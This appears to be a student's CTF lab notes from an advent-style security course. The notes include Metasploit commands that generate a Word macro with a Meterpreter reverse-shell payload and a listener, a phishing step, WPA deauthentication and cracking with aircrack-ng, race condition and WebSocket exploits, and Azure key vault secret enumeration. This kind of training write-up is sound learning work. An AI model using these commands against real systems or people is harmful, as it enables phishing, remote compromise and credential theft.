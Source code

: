 # Day 9

## What I learned:
- Relevance of GRC
- Varrious aspects that are involved in Risk assessment 




# Day 10

- Create a document with the malcicious macro using metasploit 
- Use the following commands after opening msfconsole
    ``` set payload windows/meterpreter/reverse_tcp //To speciy the reverse shell payload 
    use exploit/multi/fileformat/office_word_macro
    set LHOST 10.10.13.209
    set LPORT 8888
    exploit //to generate the payload
    ```

- Now we must use the specified port to listen for incoming connections, once again using metasploit
    ```
    use multi/handler 
    set payload windows/meterpreter/reverse_tcp
    set LHOST 10.10.13.209
    set LPORT 8888
    exploit
    ```

- We can then email the macro to the target, and use this connection to find the flag

## What I learned
- Macros 
- How Phishing works



# Day 11

- Run ``` iw dev ``` to show any wireless devices.
- We can then use ``` iw dev wlan2 scan ``` to identify nearby networks
- Now we set wlan 2 to monitor mode
- We use airodump to capture wifi traffic nearby 
    ```
        airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2
    ```
- This captures for the specific bssid 
- Now we use aireplay to send deauthenitcation packets to the target in order to create a temporary disconnection
- When it connects again we can receive the handshake
 ``` sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2 ```

- We use aircrack to perform a dictionary attack to find the passkey 
 ``` sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap ```
 
 - we get 'fluffy/champ24' as the passkey


 ## What I learned 
 - Different types of wifi attacks
 - vulnerabiliry in WPA and WPS
 - Using aireplay, airodump and aircrack



# Day 12

 - Open the website on the burpsuite browser with intercept on
 - Transfer 500 to the other account to generate the transferring request 
 - Send this command to the repeater 
 - Duplicate this request 10 times and create a tab so all can be run simultaneously 
 - Now we send this tab in parallel 
 - This causes a negative balance in the account 
 - We repeat this with the new account to get the flag: THM{WON_THE_RACE_007}

 ## What I learned
 - How a race condition attack works 

# Day 13
 - Open the website om the burpsuite browser 
 - Set intercept settings to capture packets between client to server and vice verse
 - Send a track request and change the id to track the target, this produces the first flag: THM{dude_where_is_my_car}
 - Now send a message and again change the user id to get the second flag: THM{my_name_is_malware._mayor_malware}

 ## What I learned:
 - How websockets work
 - Vulnerabilities


# Day 14

 - Opening the website, we get an error page
 - Nowe we open burpsuite and turn off intercept 
 - Add a new listener with the attackbox's ip
 - Now we run the script that has been stored to capture network traffic from the website to our device
 - This gives us all the login information for the various users, including Admin 


# Day 15

 - GPO can be used to enforce policies 
 - Open group policy management 
 - Create a new GPO for the server domain, named password policies.
 - Here, we can set conditions to ensure strength of the password 
 - We use Get-GPO to list all GPOs under the domain controller 
 - Windows comes with an event user, which stores a record of all activities
 - powershell stores all the commands that have been inputted. This file can be found in
    %APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

## What I learned
- introduction to Active directory
- AD attacks
- Event viewing 
- PowerShell logs


# Day 16

- Open the Microsoft Azure lab 
- Activate the Azure command line to navigate through the service
- ``` az ad group list ``` to list all the groups
- ``` az ad group member list --group "Secret Recovery Group" ``` to list the members in thr group 
- ``` az account clear ``` to log out and clear session
- ``` az keyvault list ``` to see all the keys accessible to this account 
    ```   
    [
  {
    "id": "/subscriptions/ddd3338d-bc5a-416d-8247-1db1f5b5ff43/resourceGroups/rg-aoc-akv/providers/Microsoft.KeyVault/vaults/warevillesecrets",
    "location": "eastus",
    "name": "warevillesecrets",
    "resourceGroup": "rg-aoc-akv",
    "tags": {},
    "type": "Microsoft.KeyVault/vaults"
  }
    ]
    ```

- ``` az keyvault secret list --vault-name warevillesecrets ``` to Check the secrets available to this keyvault 
- this gives us the name 'aoc2024' which can be used to access the value stored int the keyvault 

## What I learned
- introduction to Azure
- ACLI

